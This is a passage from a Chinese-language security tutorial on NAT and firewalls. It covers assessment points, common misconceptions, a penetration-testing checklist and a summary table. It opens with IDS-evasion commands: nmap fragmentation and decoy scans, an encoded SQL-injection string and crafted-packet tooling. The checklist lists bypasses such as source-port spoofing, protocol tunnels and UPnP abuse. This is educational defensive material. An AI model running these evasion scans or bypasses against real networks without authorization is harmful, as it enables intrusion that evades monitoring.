# TCP分段重叠（利用IDS和目标主机重组策略的差异）
nmap -f --mtu 8 target_ip

# 4. 诱饵扫描 — 混入大量假源IP
nmap -D RND:10 target_ip  # 10个随机诱饵IP
nmap -D decoy1,decoy2,ME,decoy3 target_ip  # 指定诱饵

# 5. 编码绕过 — 对攻击载荷进行编码
# URL编码、双重编码、Unicode编码等
# 例：%27%20OR%201%3D1%20--  (单引号 OR 1=1 --)

# 6. 协议违规 — 利用IDS和目标主机解析差异
# 使用自定义数据包工具
packETH -i eth0 -d target_ip
```

### 6.4 防火墙与NAT的协同工作

在实际网络架构中，NAT和防火墙通常**协同部署**。典型的中小企业网络架构如下：



安全评估要点：

- 防火墙规则是否存在过于宽松的any→any规则
- NAT映射是否暴露了不必要的内网服务
- DMZ与内网之间是否有额外的防火墙隔离
- 出站流量是否有过滤（防止数据外泄和C2通信）
- 日志是否完整，是否有人监控

### 6.5 常见误区与陷阱

**误区一："NAT就是防火墙"**

NAT隐藏了内网拓扑，但NAT不是安全机制。UPnP、IPv6、隧道技术都可以绕过NAT。RFC 4864明确指出："NAT的地址转换不是一种安全功能。"

**误区二："防火墙规则配好就安全了"**

防火墙规则需要**持续维护**。过时的规则（前员工的VPN权限、已下线服务器的端口转发）是常见的安全漏洞。应定期进行防火墙规则审计——删除所有"any any allow"规则，审查每条规则的业务必要性。

**误区三："HTTPS流量不需要检测"**

加密流量占互联网流量的90%以上，其中包含大量恶意流量。如果不配置SSL/TLS解密，防火墙对HTTPS流量等于"盲人"。但SSL解密涉及隐私合规问题，需要在安全和合规之间取得平衡。

**误区四："内网不需要防火墙"**

内网横向移动是现代APT攻击的核心手法。零信任架构的核心原则之一就是"永不信任，始终验证"——内网流量同样需要防火墙和微隔离。

**误区五："IDS/IPS签名更新就够了"**

签名检测只能发现已知攻击。零日漏洞利用、自定义C2协议、加密隧道等技术都可以绕过签名检测。需要结合异常检测、威胁情报和行为分析。

### 6.6 实战：防火墙与NAT的渗透测试清单

以下是一个系统化的防火墙/NAT渗透测试检查清单：

```text
[ ] 1. 侦察阶段
    [ ] 使用Shodan/Censys查询目标公网IP暴露的服务
    [ ] 使用Nmap进行全端口扫描（TCP+UDP）
    [ ] 使用ACK扫描确认是否存在状态检测防火墙
    [ ] 使用不同TTL探测防火墙位置（跳数）

[ ] 2. 规则分析阶段
    [ ] 确定开放端口列表和过滤端口列表
    [ ] 检测防火墙类型（包过滤/状态检测/NGFW）
    [ ] 分析ACL规则（哪些源IP可以访问哪些端口）
    [ ] 检测NAT类型和映射规则

[ ] 3. 绕过尝试
    [ ] 分片扫描绕过包重组检测
    [ ] 源端口伪装（53/80/443）
    [ ] 协议隧道（DNS/ICMP/HTTP隧道）
    [ ] 诱饵IP扫描绕过IDS
    [ ] IPv6扫描（如果支持）
    [ ] 通过已知端口的合法协议封装载荷

[ ] 4. NAT穿透
    [ ] 检测UPnP/NAT-PMP是否开启
    [ ] 枚举现有端口转发规则
    [ ] 尝试UDP打洞
    [ ] 利用STUN/TURN服务

[ ] 5. 日志与监控评估
    [ ] 测试防火墙是否记录被拒绝的连接
    [ ] 评估IDS/IPS的检测能力（发送已知攻击签名）
    [ ] 检查日志是否发送到集中式SIEM
```

### 6.7 本节小结

NAT和防火墙是网络边界的两道核心防线，理解它们的工作机制对于安全攻防至关重要。以下是本节核心知识点总结：

| 主题 | 核心要点 | 安全关联 |
|------|---------|---------|
| 静态NAT | 一对一固定映射，常用于服务器发布 | 暴露内网地址段模式 |
| 动态NAT | 从地址池按需分配 | 地址耗尽可造成DoS |
| PAT | 端口复用，最广泛使用 | 端口分配模式可推断内网规模 |
| NAT行为分类 | Cone/Symmetric四种类型 | 决定P2P穿透和隐蔽通信能力 |
| UPnP | 自动端口映射，无认证 | 内网横向移动后可直连公网 |
| 包过滤防火墙 | 基于IP/端口的静态规则 | 分片、源端口伪装可绕过 |
| 状态检测防火墙 | 连接状态跟踪 | conntrack耗尽攻击 |
| WAF | 应用层深度检测 | 编码变异、协议隧道可绕过 |
| NGFW | 应用识别+用户识别+威胁情报 | 需要SSL解密才能检测HTTPS |
| IDS/IPS | 签名/异常/协议检测 | 慢速扫描、诱饵、编码绕过 |
